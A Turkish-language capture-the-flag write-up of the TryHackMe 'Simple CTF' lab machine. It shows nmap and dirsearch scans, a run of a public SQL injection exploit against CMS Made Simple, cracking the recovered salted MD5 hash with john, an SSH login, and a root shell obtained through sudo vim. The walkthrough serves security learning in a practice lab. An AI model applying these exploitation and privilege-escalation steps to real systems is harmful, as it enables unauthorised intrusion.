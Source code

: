 ```yaml
---
title: 'TryHackMe | Simple CTF WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [sql injection]
render_with_liquid: false
---
```


Bu yazımda, TryHackMe platformunda yer alan “Simple CTF” isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sV -sC -T4 10.10.100.158
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.66.61
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 21 (FTP), 80 (HTTP) ve 2222 (SSH) numaralı portların açık olduğunu öğreniyoruz. Ayrıca FTP servisine misafir olarak bağlanabiliyoruz. İçerisinde aşağıdaki mesaj bulunuyor.

```
Dammit man… you’te the worst dev i’ve seen. You set the same pass for the system user, and the password is so weak… i cracked it in seconds. Gosh… what a mess!
```

Sanırım bir hash’i kırdı ve elde ettiği parolanın sistem kullanıcısıyla aynı parolaya sahip olduğunu öğrendi. HTTP servisinde varsayılan Apache sayfası bulunuyor. Kaynak kodunda herhangi bir bilgi bulunmadığından doğrudan dirsearch ile dosya/dizin taraması başlattım.

```console
$ dirsearch -u http://10.10.100.158
...
[13:18:21] 200 -  540B  - /robots.txt
[13:18:26] 301 -  315B  - /simple  ->  http://10.10.100.158/simple/
...
```

Tarama sonucunda simple adında bir dizin olduğunu öğrendik. Bu dizine gittiğimizde “Simple CMS” adında bir web uygulaması ile karşılaşıyoruz. İçerik yönetim sisteminin adı ile sürümünü internette arattıktan sonra [exploit-db](https://www.exploit-db.com/exploits/46635) sitesinde paylaşılmış bir exploit olduğunu öğreniyoruz. Exploit’i python3 üzerinde çalışacak şekilde düzenledikten sonra çalıştırıyor ve kullanıcı bilgilerini buluyoruz.

```console
$ python3 exploit.py -u http://10.10.100.158/simple/
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

Exploit’te hash’i kırmak için bir fonksiyon bulunuyor ama parametresini eklediğimde bir hata ile karşılaşıyorum. Bu hatayı çözemediğimden john ile kırmaya karar verdim. Fonksiyonu aşağıda görüyorsunuz.

```py
def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()
```

Burada verdiğimiz parola listesindeki parolaları teker teker alıp önceden belirlenmiş bir verinin sonuna ekliyor ve md5 algoritmasını kullanarak şifreliyor. Daha sonra ise sistemdeki hash ile karşılaştırıyor. Hash’i aşağıdaki şekilde bir dosyaya kayıt edelim ve john’u çalıştıralım.

```
0c01f4468bd75d7a84c7eb73846e8d96$1dac0d92e9fa6bb2
```

```console
$ sudo john -form=dynamic='md5($s.$p)' hash --wordlist=Desktop/rockyou.txt
...
Press 'q' or Ctrl-C to abort, almost any other key for status
s****t           (?)     
...
```

Şimdi elde ettiğimiz hash ile SSH servisine bağlanabiliriz. Bağlanmaya çalışmadan önce port'u 2222 olarak ayarladığınızdan emin olun.

```console
$ ssh mitch@10.10.100.158 -p 2222
...
mitch@Machine:~$ ls
user.txt
mitch@Machine:~$ cat user.txt 
G***p!
```

İlk bayrağı bulunduğumuz dizinden alıyoruz. Daha sonra “sudo -l” komutunu kullandığımda vim aracını root haklarıyla çalıştırabileciğimi öğrendim. -c parametresi ile kod çalıştırabiliyoruz.

```console
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:~$ sudo /usr/bin/vim -c ':!/bin/bash'
root@Machine:~# cd /root
root@Machine:/root# ls
root.txt
```
